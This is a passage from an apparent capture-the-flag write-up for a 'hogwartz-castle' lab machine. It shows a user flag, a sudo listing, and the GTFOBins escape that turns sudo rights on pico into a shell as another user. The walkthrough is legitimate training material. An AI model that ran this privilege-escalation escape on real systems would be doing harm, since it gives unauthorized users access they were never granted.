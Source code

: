 ```
harry@hogwartz-castle:~$ cat user1.txt
RME{th3-b0Y-wHo-l1v3d-f409da6f55037fdc}
```


Let's start privilege escalation.



# PRIVILEGE ESCALATION
---


Let's check our sudo privileges:


```
harry@hogwartz-castle:~$ sudo -l
[sudo] password for harry:
Matching Defaults entries for harry on hogwartz-castle:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User harry may run the following commands on hogwartz-castle:
    (hermonine) /usr/bin/pico
    (hermonine) /usr/bin/pico
```

Weird, we can run `/usr/bin/pico` as user`hermonine`, let's check this on `gtfobins`:

![Pasted image 20250404182759.png](../../IMAGES/Pasted%20image%2020250404182759.png)

Let's do this:

```
sudo -u hermonine TERM=xterm /usr/bin/pico 
ctrl R ctrl X
reset; sh 1>&0 2>&0
```

![Pasted image 20250404183940.png](../../IMAGES/Pasted%20image%2020250404183940.png)
